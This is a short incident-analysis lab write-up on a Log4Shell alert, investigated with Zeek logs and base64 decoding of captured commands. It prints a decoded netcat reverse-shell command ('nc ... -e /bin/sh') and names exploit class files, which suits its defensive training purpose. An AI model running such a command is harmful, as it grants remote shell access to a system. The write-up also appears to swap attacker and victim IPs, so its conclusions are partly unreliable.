








An alert triggered:
"Log4J Exploitation Attempt".The case was assigned to you. Inspect the PCAP and retrieve the artefacts to confirm this alert is a true positive.
First, we will navigate to the directory containing the pcap file.

We will examine the "log4shell.pcapng" file using the "detection-log4j.zeek" script.
zeek -Cr log4shell.pcapng detection-log4j.zeek

Let's take a look at the table and see that a good stating point might be “signatures.log”

cat signatures.log

Now that we have a suspect malicious IP Address, we will investigate “http.log”
cat http.log | grep 192.168.56.102 | less

We found that the attacker used Nmap ("Network Mapper") a utility for network discovery and security auditing. Also found the URI of the file. URI is the where inside the page

In “log4j.log” we can also search for URI and by sorting it with only unique values, three commands enconded with base64 appear

By easily decoding them with “base64 --decode” we can acquire that the attacker created a file named pwned in the tmp directory and used Netcat

Putting it all together, when you execute the command nc 192.168.56.102 80 -e /bin/sh -vvv, you are attempting to establish a network connection to the specified IP address and port. Once the connection is established, the -e /bin/sh option instructs netcat to initiate a shell session (/bin/sh) on the remote server. This action has the potential to grant remote control over the server.
We have identified the malicious IP address"172.17.0.2" and the afected IP Address "192.168.56.102." Additionally, we have come across exploit files named "/Exploit6HHc3BcVzI.class," "/ExploitQ8v7ygBW4i.class," and "/ExploitSMMZvT8GXL.class." This actor also generated a file named "pwned" in the "/tmp" directory to save the verbose output of the nc command to a file named /tmp/pwned on your local machine (nc > /tmp/pwned).